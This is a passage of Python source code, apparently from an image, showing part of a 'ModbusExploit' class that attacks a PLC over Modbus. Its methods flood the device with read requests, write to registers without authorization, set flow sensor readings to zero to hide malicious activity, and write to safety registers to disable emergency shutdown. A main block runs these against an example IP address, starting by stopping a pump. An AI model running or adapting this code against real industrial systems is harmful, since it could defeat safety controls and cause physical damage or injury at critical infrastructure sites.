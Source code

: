 ```python
            return False
            
    def flood_attack(self, duration=30):
        """Modbus flooding attack"""
        print(f"Starting Modbus flood attack for {duration} seconds...")
        start_time = time.time()
        
        while time.time() - start_time < duration:
            try:
                # Rapid read requests
                for register in range(40001, 40011):
                    self.client.read_holding_registers(register, 1)
                time.sleep(0.01)  # 10ms delay
            except Exception as e:
                print(f"Flood attack error: {e}")
                break
                
    def unauthorized_write(self, register, value):
        """Unauthorized register write"""
        try:
            result = self.client.write_register(register, value)
            print(f"Unauthorized write to {register}: {value}")
            return result
        except Exception as e:
            print(f"Write failed: {e}")
            return False
            
    def data_manipulation(self):
        """Sensor data manipulation attack"""
        # Manipulate sensor readings to hide malicious activity
        sensors = [40021, 40022, 40023, 40024]  # Flow rate sensors
        for sensor in sensors:
            self.unauthorized_write(sensor, 0)  # Set flow to 0
            time.sleep(0.5)
            
    def emergency_shutdown_bypass(self):
        """Attempt to bypass emergency shutdown"""
        # Target safety system registers
        safety_registers = [40071, 40072, 40073, 40074]
        for reg in safety_registers:
            self.unauthorized_write(reg, 1)  # Disable safety systems
            time.sleep(0.2)

if __name__ == "__main__":
    # Example usage
    exploit = ModbusExploit("192.168.100.10")
    if exploit.connect():
        print("Connected to target PLC")
        # Run attack scenarios
        exploit.unauthorized_write(40001, 0)  # Stop pump 1
        exploit.data_manipulation()
        exploit.flood_attack(10)
    else:
        print("Failed to connect")
```
